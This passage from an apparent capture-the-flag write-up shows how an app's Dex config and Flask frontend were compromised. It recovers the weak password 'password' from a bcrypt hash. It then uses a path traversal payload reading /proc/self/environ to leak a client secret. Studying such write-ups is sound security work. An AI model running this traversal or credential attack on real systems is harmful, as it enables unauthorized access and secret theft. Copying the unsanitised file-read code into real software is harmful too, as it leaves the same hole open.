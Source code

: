         "nonce": "csKocrlYB2CDof6C",
        "sub": "CiQ3N2M3YWY1MS0yYjBhLTQ3MWQtOGE4OC04MjVjYmJhZmYxNDkSBWxvY2Fs"
      }
    }
    ```

# Analysis

## Passwords

The Dex configuration file contains:

```yaml
staticPasswords:
  - email: "admin@general-management.llc"
    hash: "\$2y\$10\$rahSldYb5MxdLzuOcezHXelX5nS5LdhMvenbf/9AFZ2vCwC3XSX5q" # not bruteforcable
    username: "admin"
    userID: "c3d360f3-5b5c-4288-be52-d2f4906750af"
  - email: "steve@general-management.llc"
    hash: "\$2a\$10\$2b2cU8CPhOTaGrs1HRQuAueS7JTT5ZHsHSzYiFPm1leZck7Mc8T4W" # password
    username: "steve"
    userID: "77c7af51-2b0a-471d-8a88-825cbbaff149"
```

Which suggests that password of `steve` *is* brute-forceable. Which it indeed is - and the
password is `password` &#128578; With that, we can login to the live instance of the app.

## Path traversal in the frontend

The following code:

```python
@app.route("/page")
@auth.oidc_auth("default")
def page():
    page = request.args.get("page")
    if page is None:
        return "Not found", 404
    try:
        with open(f"templates/{page}", "r") as f:
            return f.read()
    except Exception as e:
        print(e)
        return "Not found", 404
```

... contains a simple path traversal bug. Indeed, once we log in, going to
`/page?page=../../../proc/self/environ` returns the full process
environment - and that includes:

```bash
CLIENT_ID=frontend
CLIENT_SECRET=ZMyjEAypRBXCTQMIiqTbT8M8GXiGrSd
```
